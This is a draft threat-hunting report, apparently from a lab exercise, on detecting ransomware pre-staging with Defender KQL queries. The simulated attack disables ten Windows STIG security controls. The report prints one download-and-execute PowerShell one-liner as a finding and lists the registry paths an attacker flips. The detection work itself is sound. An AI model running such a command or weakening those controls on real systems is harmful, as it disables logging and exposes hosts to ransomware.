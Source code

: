 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any (
    @"SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription",
    @"SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging",
    @"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System",
    @"SYSTEM\CurrentControlSet\Services\Lanmanworkstation\Parameters",
    @"SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters",
    @"SOFTWARE\Policies\Microsoft\Windows\WinRM\Client",
    @"SOFTWARE\Policies\Microsoft\Windows\WinRM\Service",
    @"SYSTEM\CurrentControlSet\Control\Lsa\FipsAlgorithmPolicy"
)
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: 
- All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked `DeviceProcessEvents` for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
- Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched `DeviceNetworkEvents` for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985):

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

Findings: 
- Multiple WinRM connections to 10.0.0.15:5985 initiated by powershell.exe
- No SMB traffic detected yet (likely pending lateral movement phase)

##

### 4. Validation - Confirmed All 10 STIG Controls Modified
Validated that all 10 controls were modified by same account:
```kql
DeviceRegistryEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ([list of 10 specific paths])
| summarize 
    ModifiedControls = dcount(RegistryKey),
    ControlsList = make_set(RegistryKey),
    UniqueAccounts = dcount(InitiatingProcessAccountName)
  by DeviceName
| where ModifiedControls == 10
```
Findings: Confirmed all 10 STIG controls were modified by single account (corp\backupsvc) within 2-minute window.

---

### Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

| IOC (Type) | Value | Confidence | MITRE ATT&CK
|-------|-----------|-------|-----------|
| Compromised Account | corp\backupsvc | High | T1078
| Malicious Process | powershell.exe -ep Bypass -NoProfile | High | T1059.001
| C2 Server | 10.0.0.15:5985 (WinRM) | Medium | T1021.006
| Malicious Script | stig-pre-staging-iocs.ps1 | High | T1203
| Registry Modifications | 10 STIG controls disabled | High | T1112

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
Immediate Actions:

- Isolated device via MDE
- Disabled corp\backupsvc account
- Initiated enterprise-wide hunt for similar activity

---
